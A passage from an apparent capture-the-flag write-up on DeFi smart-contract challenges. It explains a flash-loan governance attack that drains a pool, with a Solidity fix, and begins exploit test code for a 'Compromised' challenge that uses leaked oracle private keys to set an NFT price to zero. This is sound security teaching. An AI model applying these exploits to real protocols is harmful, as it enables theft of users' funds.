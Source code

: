 ```solidity
    vm.warp(block.timestamp + 2 days);
    
    // Execute the queued action
    attacker.executeAction();
}
```

### Why it works
1. Flash loan gives temporary ownership of all governance tokens
2. Delegating to self provides voting power during the loan
3. Queue malicious governance action while having voting power
4. Execute action after time delay to drain pool

### Fix
```solidity
// Add snapshot-based voting or minimum holding time
contract FixedGovernance {
    mapping(address => uint256) public lastVoteTime;
    uint256 public constant MIN_VOTE_DELAY = 1 days;
    
    function queueAction(
        address target,
        uint256 value,
        bytes calldata data
    ) external returns (uint256) {
        require(
            lastVoteTime[msg.sender] + MIN_VOTE_DELAY <= block.timestamp,
            "Must hold tokens for minimum time"
        );
        
        require(
            token.getPastVotes(msg.sender, block.number - 1) >= getVotesRequired(),
            "Insufficient voting power"
        );
        
        // ... rest of function
    }
}
```

---

## Challenge 7: Compromised

### Vulnerability
Leaked private keys of oracle operators allow manipulation of NFT prices for profitable trading.

### Exploit Code
```solidity
// In Compromised.t.sol - test_compromised() function
function test_compromised() public checkSolvedByPlayer {
    // Decoded private keys from leaked data
    uint256 privateKey1 = 0x7d15bba26c523683bfc3dc7cdc5d1b8a2744447597cf4da1705cf6c993063744;
    uint256 privateKey2 = 0x68bd020ad186b647a691c6a5c0c1529f21ecd09dcc45241402ac60ba377c4159;
    
    address oracle1 = vm.addr(privateKey1);
    address oracle2 = vm.addr(privateKey2);
    
    // Manipulate price to minimum (0)
    vm.startPrank(oracle1);
    oracle.postPrice("DVNFT", 0);
    vm.stopPrank();
```